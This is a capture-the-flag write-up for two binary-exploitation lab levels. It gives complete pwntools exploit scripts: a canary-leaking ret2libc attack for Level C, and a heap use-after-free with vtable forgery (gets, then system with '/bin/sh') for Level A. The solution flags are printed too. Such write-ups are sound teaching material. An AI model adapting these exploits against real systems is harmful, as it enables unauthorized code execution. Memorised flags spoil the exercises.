

## lab09

**Level C**
The initializing list is wrongly coded so that `alloc_len` is set to some unpredictable number (but is absolutedly greater than 256 or 257).

```cpp
DSVector() : len(1), alloc_len(len+256) {}
```

For this reason, leaking information with "read item" choice is very easy (including libc addresses, canary, etc.):


In the picture, `0xbffff2e8` is corresponding to `&vector_data[0]`, similarly, canary is at index 257.

Then we can easily construct a ret2libc attack:

```python
from pwn import *

#env = {'LD_PRELOAD':'./libstdc++.so.6'}
#p = process('./lab9C', env=env)
p = remote('mbe', 9943)

def leak_index(proc, i):
    proc.recvuntil('choice: ')
    proc.sendline('2')
    proc.recvuntil('index: ')
    proc.sendline(str(i))
    proc.recvregex(r'DSVector\[\d+\] = ')
    return u32(p32(int(proc.recvline()), sign='signed'))

def append(proc, uint):
    sint = u32(p32(uint), sign='signed')
    proc.recvuntil('choice: ')
    proc.sendline('1')
    proc.recvuntil('number: ')
    proc.sendline(str(sint))

LEAK = 0xb7d4dffd
SYS = 0xb7d7b190
BINSH = 0xb7e9ba24
leak = leak_index(p, 0)
canary = leak_index(p, 257)
sys = leak - LEAK + SYS
binsh = leak - LEAK + BINSH

for i in range(256):
    append(p, i+1)
append(p, canary)
for i in range(3):
    append(p, 0x71)
append(p, sys)
append(p, 0xdeadbeef)
append(p, binsh)

p.recvuntil('choice: ')
p.sendline('3')
p.interactive('cirq # ')
```


The flag is `1_th0uGht_th4t_w4rn1ng_wa5_l4m3`.

---

**Level A**
The program provides a hash table based stotage service. In the main loop, there are 8 `hashset_int` pointers that users can decide operating with which one with common hash table operations. There are 4 selection branches:

1. select a `hashset_int` index and initiate it (a hash table with any wanted size)
2. select a `hashset_int` index and add a value in it
3. select a `hashset_int` index and inquiry an index of value in it
4. select a `hashset_int` index and destory this hash table

Firstly I come up with a use after free idea, however, the overall solution is related to the heap management strategy of `glibc`, particularily, the `new` and `delete` details of C++. In Ubuntu 14.04, this allocator is `ptmalloc2`.

The most first step is leaking information. With following sequence, we are able to leak both a libc address and a heap address.

1. create 2 hashset
2. delete the first one
3. create a new hashset with previously deleted index

Here is a memory map after this sequence:



`0x81d2a40` is the start address of `set_vec[0]`, and `0x81d2a4c` stores the address of `set_data`. Then we found that `set_data[0]` is a libc address and `set_data[2]` is a heap address.

After calculated the address of `system` and `"/bin/sh"`, I need to write the function address as vtable entry. In `HashSet`'s vtable, there is one function suitable for victim.


Faking `system` function as `add`, however, `add` is a class member function, so the first argument is always `this` pointer.

Here I used an alternative solution, faking `gets` as `add` (Inspired by Shao's solution), causing a heap overflow, to forgery the next object. The payload for `gets` is constructed as:

> `gets_payload = cyclic(OFFSET) + p32(vtable) + ';/bin/sh'`

Strangely, `OFFSET` is different in local and remote, that troubles me a lot. After vtable address, a semicolon is attached, since it will be treated as a shell command (in `system` call) and causing a command not found error, then `/bin/sh` is executed.

```python
from pwn import *
context.log_level = 'error'

rmt = True

if rmt:
    p = remote('mbe', 9941)
    LEAK = 0xb7ec7688
    GETS = 0xb7d81cd0
    SYS = 0xb7d5d190
    HEAP = 0x804c040
    GETS_ABS = 0x804c7a8
    SYS_ABS = 0x804c6a8
    PAD = 0x1f
    CYC = 392
else:
    p = process('./lab9A')
    LEAK = 0xf75ef9e8
    GETS = 0xf749c3e0
    SYS = 0xf7477da0
    HEAP = 0x9b23a50
    GETS_ABS = 0x9b241f8
    SYS_ABS = 0x9b240f8
    PAD = 0x6e
    CYC = 72

def new_set(index, size):
    p.recvuntil('choice: ')
    p.sendline('\n'.join(['1', str(index), str(size)]))
def add_item(index, value):
    p.recvuntil('choice: ')
    p.sendline('\n'.join(['2', str(index), str(value)]))
def find_item(index, value):
    p.recvuntil('choice: ')
    p.sendline('\n'.join(['3', str(index), str(value)]))
    p.recvline()
    info = p.recvline(keepends=False)
    info_int = int(info.split(' = ')[1])
    info_uint = u32(p32(info_int, sign='signed'))
    return info_uint
def del_set(index):
    p.recvuntil('choice: ')
    p.sendline('\n'.join(['4', str(index)]))


def leak():    # leak by uninitialized data buffer
    new_set(0, 0x100)
    new_set(1, 0x100)
    del_set(0)
    new_set(0, 32)
    leak_libc = find_item(0, 0)
    leak_gets = leak_libc - LEAK + GETS
    leak_sys = leak_libc - LEAK + SYS
    leak_heap = find_item(0, 2)
    return leak_gets, leak_sys, leak_heap

def inject(gets_addr, sys_addr, heap_addr): # sys's addr with vtable offset
    gets_vt = heap_addr - HEAP + GETS_ABS - 2*4
    sys_vt = heap_addr - HEAP + SYS_ABS - 2*4
    print 'gets:  ', hex(gets_addr)
    print 'sys:   ', hex(sys_addr)
    print 'heap:  ', hex(heap_addr)
    print 'gvt:   ', hex(gets_vt)
    print 'svt:   ', hex(sys_vt)

    new_set(3, PAD)
    new_set(4, 0x40)
    del_set(4)
    del_set(3)
    new_set(5, 0x80)
    add_item(5, gets_vt)
    new_set(6, 0)

    add_item(1, gets_addr)
    gets_payload = cyclic(CYC) + p32(sys_vt) + ';/bin/sh'
    p.recvuntil('choice: ')
    p.send('2\n4\n0\n')
    p.sendline(gets_payload)

    add_item(1, sys_addr)
    p.recvuntil('choice: ')
    p.send('2\n6\n0\n')
    p.sendline('whoami')


gets, sys, heap = leak()
inject(gets, sys, heap)

p.interactive()
```


Flag is `1_d1dNt_3v3n_n33d_4_Hilti_DD350`.

Cheers!
